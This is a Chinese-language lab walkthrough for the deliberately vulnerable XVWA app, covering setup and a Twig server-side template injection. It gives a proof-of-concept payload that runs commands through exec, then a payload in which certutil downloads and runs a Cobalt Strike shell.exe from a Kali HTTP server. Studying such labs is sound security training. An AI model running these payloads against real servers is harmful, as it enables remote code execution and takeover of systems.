







# XVWA-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶场项目地址**
- https://github.com/s4n7h0/xvwa

---

**实验环境**

`环境仅供参考`

- phpstudy
- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali 4.19.0-kali3-amd64
- CobaltStrike4.1

---

## 搭建/使用

这里使用 phpstudy 搭建, mysql5.1.60 + php5.2.17 环境

数据库需要手动创建 xvwa 库,并且修改 config.php,输入数据库连接的凭证



---

## Server Side Template Injection (SSTI)

由于模板引擎支持使用静态模板文件，并在运行时用 HTML 页面中的实际值替换变量 / 占位符，从而让 HTML 页面的设计变得更容易。当前广为人知且广泛应用的模板引擎有 Smarty、Twig、Jinja2、FreeMarker 和 Velocity。

如果攻击者能够把模板指令作为用户输入进行注入，并且这些指令可以在服务器上执行任意代码的话，那么他们离服务器端模板注入攻击也不远了。

访问页面,尝试输入 `${{1+2}}` ,根据服务器响应来看，得到的结果为 $3 。根据这个响应，我们可以推测这里使用了模板引擎，因为这符合它们对于 `{{}}` 的处理方式。



根据提示, 使用 TWIG 模板引擎的 POC
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```



**配合 CS 回弹一个 shell(windows)**

CS 监听



生成回弹 payload



上传到 kali 部署
```
python -m SimpleHTTPServer 8000
```

配合 payload 执行
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("certutil.exe -urlcache -split -f http://192.168.141.143:8000/shell.exe shell.exe & shell.exe")}}
```

成功上线



查看服务器目录下,存在 shell.exe 文件


